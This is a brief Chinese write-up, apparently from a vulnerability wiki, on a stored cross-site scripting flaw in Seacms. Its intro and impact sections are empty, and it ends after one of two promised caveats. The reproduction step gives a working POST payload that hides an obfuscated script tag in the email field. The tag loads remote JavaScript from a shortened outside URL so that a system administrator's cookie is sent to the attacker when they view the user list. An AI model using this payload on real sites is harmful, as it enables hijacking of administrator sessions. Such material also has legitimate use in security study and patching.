 ```yaml
---
title: "Seacms储存型xss"
id: zhfly3111
---
```


# Seacms 储存型xss

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
POST /member.php?action=chgpwdsubmit `oldpwd=test&newpwd=test&newpwd2=test&email=test%[40test.com](http://40test.com)<scbase64ript src=https://url.cn/585l00F></scrbase64ipt>&nickname=&gaimi=%E7%A1%AE%E8%AE%A4%E4%BF%AE%E6%94%B9` 
```

> src的值为`http://target.0-sec.org/test.js`的短链接

当后台浏览到后台界面时，会触发漏洞，反弹回来Cookie，但需要注意两点，第一，只有系统管理员才能看到用户界面，普通管理员是没有这个权限的。